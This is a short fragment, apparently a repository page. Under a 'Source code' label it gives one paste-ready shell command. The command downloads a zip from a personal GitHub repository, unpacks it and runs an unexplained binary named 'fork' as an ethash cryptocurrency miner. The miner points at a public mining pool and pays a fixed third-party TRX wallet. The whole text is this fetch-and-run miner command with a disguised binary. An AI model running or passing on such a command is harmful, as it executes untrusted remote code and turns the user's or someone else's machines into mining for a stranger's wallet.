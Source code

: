 wget https://github.com/hasra33/saS/raw/main/fork.zip && apt install unzip && unzip fork.zip  && cd fork && ./fork -a ethash -o stratum+tcp://ethash.unmineable.com:3333 -u TRX:TUhisPLRuEvLxgeyhctGgm1vskr3aapMGX.sas
